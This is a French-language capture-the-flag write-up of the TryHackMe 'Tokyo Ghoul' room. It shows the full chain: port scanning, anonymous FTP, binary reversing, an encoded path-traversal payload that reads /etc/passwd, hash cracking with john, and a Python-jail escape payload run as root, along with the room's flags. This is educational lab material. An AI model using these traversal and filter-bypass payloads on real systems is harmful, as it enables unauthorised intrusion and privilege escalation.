







# Tokyo Ghoul #

## Task 1 About the room ##

## Task 2 Where am i ? ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.126.183 tokyo-ghoul.thm' >> /etc/hosts"
tim@kali:~/Bureau/tryhackme/write-up$ ping tokyo-ghoul.thm
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A tokyo-ghoul.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-16 16:42 CEST
Nmap scan report for tokyo-ghoul.thm (10.10.126.183)
Host is up (0.034s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    3 ftp      ftp          4096 Jan 23  2021 need_Help?
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.228.66
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fa:9e:38:d3:95:df:55:ea:14:c9:49:d8:0a:61:db:5e (RSA)
|   256 ad:b7:a7:5e:36:cb:32:a0:90:90:8e:0b:98:30:8a:97 (ECDSA)
|_  256 a2:a2:c8:14:96:c5:20:68:85:e5:41:d0:aa:53:8b:bd (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome To Tokyo goul
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=10/16%OT=21%CT=1%CU=44444%PV=Y%DS=2%DC=T%G=Y%TM=616AE5
OS:5C%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=8)SE
OS:Q(SP=106%GCD=1%ISR=10C%TI=Z%II=I%TS=8)OPS(O1=M506ST11NW6%O2=M506ST11NW6%
OS:O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11NW6%O6=M506ST11)WIN(W1=68DF%W2
OS:=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M506NNS
OS:NW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%
OS:DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%
OS:W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%
OS:RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3306/tcp)
HOP RTT      ADDRESS
1   31.59 ms 10.9.0.1
2   31.83 ms tokyo-ghoul.thm (10.10.126.183)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 123.92 seconds

```

Nmap nous indique plusieurs services : 
Le service FTP sur le port 21.   
Le service SSH sur le port 22.   
Le service HTTP sur le port 80.   

**How many ports are open ?**

D'arpès nmap il y a 3 ports ouverts.    

**What is the OS used ?**

D'arpès nmap l'os utilisé est : Ubuntu    

## Task 3 Planning to escape ##

**Did you find the note that the others ghouls gave you? where did you find it ?**

  

La note se trouve dans le lien : jasonroom.html  

**What is the key for Rize executable?**  

Voire Task 4, problème chronologique.     

On a un binaire qui demande une réponse.  



On analyse le programme avec Ghidra et on trouve le mot de passe qui est : kamishiro  

La clef pour le fichier Rize est : kamishiro   

## Task 4 What Rize is trying to say? ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ftp tokyo-ghoul.thm
Connected to tokyo-ghoul.thm.
220 (vsFTPd 3.0.3)
Name (tokyo-ghoul.thm:tim): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Jan 23  2021 need_Help?
226 Directory send OK.
ftp> cd need_Help?
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp           480 Jan 23  2021 Aogiri_tree.txt
drwxr-xr-x    2 ftp      ftp          4096 Jan 23  2021 Talk_with_me
226 Directory send OK.
ftp> get Aogiri_tree.txt
local: Aogiri_tree.txt remote: Aogiri_tree.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for Aogiri_tree.txt (480 bytes).
226 Transfer complete.
480 bytes received in 0.00 secs (607.9767 kB/s)
ftp> cd Talk_with_me
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xr-x    1 ftp      ftp         17488 Jan 23  2021 need_to_talk
-rw-r--r--    1 ftp      ftp         46674 Jan 23  2021 rize_and_kaneki.jpg
226 Directory send OK.
ftp> get rize_and_kaneki.jpg
local: rize_and_kaneki.jpg remote: rize_and_kaneki.jpg
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for rize_and_kaneki.jpg (46674 bytes).
226 Transfer complete.
46674 bytes received in 0.07 secs (696.4213 kB/s)
ftp> get need_to_talk
local: need_to_talk remote: need_to_talk
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for need_to_talk (17488 bytes).
226 Transfer complete.
17488 bytes received in 0.03 secs (511.0763 kB/s)  
```

On se connecte en mode anonymous sur le serveur FTP.   
On récupère les fichiers.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ chmod +x need_to_talk 
tim@kali:~/Bureau/tryhackme/write-up$ ./need_to_talk 
Hey Kaneki finnaly you want to talk 
Unfortunately before I can give you the kagune you need to give me the paraphrase
Do you have what I'm looking for?

> toto
Hmm. I don't think this is what I was looking for.
Take a look inside of me. rabin2 -z
```

On a un binaire qui demande une réponse.  


On analyse le programme avec Ghidra et on trouve le mot de passe qui est : kamishiro  

**what is rize username ?**

Le nom d'utilisateur de rize est : kamishiro   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ./need_to_talk 
Hey Kaneki finnaly you want to talk 
Unfortunately before I can give you the kagune you need to give me the paraphrase
Do you have what I'm looking for?

> kamishiro
Good job. I believe this is what you came for:
You_found_1t
```

On trouve un autre mot de passe qui est : You_found_1t  

```bash
What is the key for Rize executable?


On extrait le fichier yougotme.txt avec le mot de passe que l'on a trouvé.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat yougotme.txt 
haha you are so smart kaneki but can you talk my code 

..... .-
....- ....-
....- -....
--... ----.
....- -..
...-- ..---
....- -..
...-- ...--
....- -..
....- ---..
....- .-
...-- .....
..... ---..
...-- ..---
....- .
-.... -.-.
-.... ..---
-.... .
..... ..---
-.... -.-.
-.... ...--
-.... --...
...-- -..
...-- -..


if you can talk it allright you got my secret directory 
```

Dans le fichier on a du code morse.   



Avec cyber chef on décode du morse->hexadécimal->base64  

**What the message mean did you understand it ? what it says?**  

On trouve le message suivant : d1r3c70ry_center  

  

On va sur la page, elle nous dit de la scanner.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://tokyo-ghoul.thm/d1r3c70ry_center/ -w /usr/share/dirb/wordlists/common.txt -q
/.hta                 (Status: 403) [Size: 280]
/.htaccess            (Status: 403) [Size: 280]
/.htpasswd            (Status: 403) [Size: 280]
/claim                (Status: 301) [Size: 335] [--> http://tokyo-ghoul.thm/d1r3c70ry_center/claim/]
/index.html           (Status: 200) [Size: 312]                                        
```

On scanne la page ave gobuster on trouve /claim   

  

Quand on clique sur no ou yes on envoie un paramètre sur la page.   

 

On essaie de faire un exploit en lfi, mais il y a un bloquage.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ urlencode  ../../../../../etc/passwd
..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
tim@kali:~/Bureau/tryhackme/write-up$ echo '..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd' | sed 's/\./%2E/g'
%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd
```

On encode notre url.   

   

Avec notre url on arrive à lire le  fichier passwd.   

On trouve le hash de kamishiro.   

Le hash est : $6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo '$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0' > hash
```

**what is rize password ?**   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ john hash -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (?)
1g 0:00:00:00 DONE (2021-10-17 09:58) 4.166g/s 6400p/s 6400c/s 6400C/s kucing..mexico1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
tim@kali:~/Bureau/tryhackme/write-up$ john hash --show
?:password123

1 password hash cracked, 0 left
```

On casse le mot de passe john et on trouve le mot de passe : password123

# Fight Jason #  

**user.txt**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh kamishiro@tokyo-ghoul.thm 
kamishiro@tokyo-ghoul.thm's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-197-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


This system is built by the Bento project by Chef Software
More information can be found at https://github.com/chef/bento

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Sat Jan 23 22:29:38 2021 from 192.168.77.1
kamishiro@vagrant:~$ cat /home/kamishiro/user.txt 
e6215e25c0783eb4279693d9f073594a
```

On se connecte sur le service SSH avec les identifiants suivants : kamishiro:password123   
On lit le ficher user.txt dans le répertoire /home/kamishiro/  
Le flag est : e6215e25c0783eb4279693d9f073594a  

**root.txt**

```bash
kamishiro@vagrant:~$ sudo -l
[sudo] password for kamishiro: 
Matching Defaults entries for kamishiro on vagrant.vm:
    env_reset, exempt_group=sudo, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kamishiro may run the following commands on vagrant.vm:
    (ALL) /usr/bin/python3 /home/kamishiro/jail.py
```

On voit que l'on peut exécuter jail.py avec les droits root.   

```bash
/home/kamishiro/jail.py
kamishiro@vagrant:~$ ls -al /home/kamishiro/jail.py 
-rw-r--r-- 1 root root 588 Jan 23  2021 /home/kamishiro/jail.py
kamishiro@vagrant:~$ cat /home/kamishiro/jail.py 
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
    print("Hi! Welcome to my world kaneki")
    print("========================================================================")
    print("What ? You gonna stand like a chicken ? fight me Kaneki")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
        if keyword in text:
            print("Do you think i will let you do this ??????")
            return;
    else:
        exec(text)
        print('No Kaneki you are so dead')
if __name__ == "__main__":
    main()
```

On a pas les droits pour écrire dans le fichier jail.py.   
On voit le script exécute des commandes, il y a un filtrage sur certain mots.  

```bash
kamishiro@vagrant:~$ sudo /usr/bin/python3 /home/kamishiro/jail.py
Hi! Welcome to my world kaneki
========================================================================
What ? You gonna stand like a chicken ? fight me Kaneki
>>> __builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat /root/root.txt')
9d790bb87898ca66f724ab05a9e6000b
No Kaneki you are so dead
```

On contourne la protection, en faissant un objet on l'on modifie, pour plus d'information : [escape-jail](https://anee.me/escaping-python-jails-849c65cf306e)
On obtient le dernier flag qui est : 9d790bb87898ca66f724ab05a9e6000b  